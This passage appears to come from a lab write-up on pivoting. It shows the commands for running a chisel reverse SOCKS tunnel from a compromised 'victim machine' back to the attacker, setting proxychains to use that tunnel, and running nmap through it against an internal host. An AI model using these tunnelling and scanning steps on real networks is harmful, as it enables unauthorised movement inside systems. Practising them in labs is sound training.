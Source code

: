 3. Execute chisel in victim machine.

As you can see, port `1080` is open by default in our machine. This port is crucial for the exchange of communications between 10.10.10.2 and our IP, {10.10.10.1}.

```bash
./chisel client {IP}:6150 R:socks
```

![Image](../assets/img/post/littlepivoting/image-10.png)

4. We just need to configure the proxychains. 

4. 1. uncomment `dynamic_chain` and comment `strict_chain`

![Image](../assets/img/post/littlepivoting/image-11.png)

4. 2. Comment socks4 and add socks5 127.0.0.1 1080

![Image](../assets/img/post/littlepivoting/image-12.png)

## Nmap | ProxyChains

Specify ports 22 and 80 because they are the only ones that appeared in the initial scan.

```BASH
sudo proxychains nmap -sCV -sT -Pn 22,80 20.20.20.3 2>&1 | grep -vE "timeout|OK"
```
